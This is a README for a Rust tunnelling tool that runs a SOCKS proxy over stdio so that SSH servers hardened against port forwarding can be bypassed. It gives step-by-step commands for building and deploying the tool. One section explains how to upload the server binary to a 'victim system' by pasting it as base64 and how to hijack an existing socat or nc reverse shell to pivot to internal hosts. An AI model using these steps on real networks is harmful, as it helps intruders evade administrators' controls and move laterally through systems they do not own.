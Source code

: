 # Stdio-Socks

## Description
A small tool written in Rust to add socks feature to a harden SSH server.
If the server denies dynamic forward (`AllowTcpForwarding no` or
`DisableForwarding yes`).

## TL;DR how to use

1. Setup
   ```bash
   cargo build --release --examples
   scp target/release/examples/server server:/tmp
   export RUST_LOG=info
   rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | target/release/examples/client --bind-addr=0.0.0.0:1337 | ssh server /tmp/server > /tmp/f
   ```

2. Enjoy
   ```bash
   curl -x socks5://127.0.0.1:1337 http://monip.org
   ssh -o ProxyCommand='nc -X 5 -x 127.0.0.1:1337 %h %p' $INTERNAL_IP
   ```


## Got only one reverse and want to multiplex ?

1. Upload the [server example](./examples/server.rs) on the victim system.
   ```console
   local$ gzip -9c server | base64 | tmux load-buffer -
   remote$ cat > server.64
   <TMUX PASTE>
   ^D
   base64 -d server.64 | gzip -dc > server
   chmod +x server
   ```

2. Prepare the command-line to run server-side in a file:
   ```console
   local$ cat command
   export RUST_LOG=info
   <PATH TO SERVER>/server
   ```
3. redirect your local shell (i.e. socat or nc) STDIN/STDOUT with [reredirect](https://github.com/jerome-pouiller/reredirect).
   ```console
   local$ mkfifo in out
   local$ reredirect -v -i $PWD/in -o $PWD/out $(pidof socat)
   ```

4. send the command to the remote shell
   ```console
   local$ cat command > in
   ```

5. Read (any) output from command to avoid messing up with protocol
   ```console
   local$ cat out
   ```
6. Start client
   ```console
   local$ cat out | \
   RUST_LOG=info cargo run --example=client -- --bind-addr 127.0.0.1:1337 | \
   tee /dev/null > in
   ```

7. Enjoy !


## Internals
### Event loop
It uses [tokio](https://tokio.rs/) and is fully asynchronous to avoir spawing
too many threads while handling each connection.

### Multiplexer
It aim to be generic. Its use a custom (simle) protocol and the parsing is done
thanks to [nom](https://github.com/Geal/nom). There are 3 different types of
packets:
  1. Request a new channel. Its ID is chosen by the client and the remote
     endpoint. For now a hostname/port or a path to an UNIX socket.
     data describing the "thing" to connect to.
  2. Request to close a channel identified by its ID.
  3. Send data to an opened channel.

### Client/Server
Theses examples are just to demontrate the multuiplexer capabilities. But you
can do anything else you want with it.
The client is in fact just a socks 5 server (only supporting the
[CONNECT](https://datatracker.ietf.org/doc/html/rfc1928#section-4) command).
Once a request is parsed, then its simply forwarded to the server.
Also, the client refuse to open new stream (to avoid the hacker being him-self
hacked).
